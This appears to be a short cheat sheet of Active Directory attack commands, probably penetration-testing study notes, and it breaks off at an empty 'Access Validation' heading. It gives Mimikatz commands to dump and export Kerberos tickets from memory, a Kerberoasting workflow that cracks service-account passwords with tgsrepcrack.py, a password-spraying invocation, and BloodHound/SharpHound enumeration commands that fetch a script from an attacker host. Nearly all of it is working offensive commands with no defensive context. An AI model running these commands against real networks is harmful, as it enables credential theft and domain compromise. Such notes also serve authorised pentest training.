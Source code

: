 ### Service Account Attacks
-> Sow user tickets that are stored in memory
```
./mimikatz.exe "sekurlsa::tickets"
```

-> Display all cached Kerberos tickets for the current user

```
klist
```

-> Export service tickets from memory
```
./mimikatz.exe "kerberos::list /export"
```

-> Wordlist Attack with tgsrepcrack.py to get the clear text password for the service account
```
sudo apt update && sudo apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt <ticket.kirbi>
```

or  

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

### Password Spraying
```
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```
https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1

### Enumeration - BloodHound
-> Install - Attacker VM
```
sudo apt install bloodhound
```

-> neo4j start - http://localhost:7474/
```
sudo neo4j start
```

-> Enumeration - Windows
```
iwr -uri <ip>/SharpHound.ps1 -Outfile SharpHound.ps1
. .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All,loggedon
Invoke-BloodHound -CollectionMethod All -Verbose
Invoke-BloodHound -CollectionMethod LoggedOn -Verbose
```

### Access Validation 
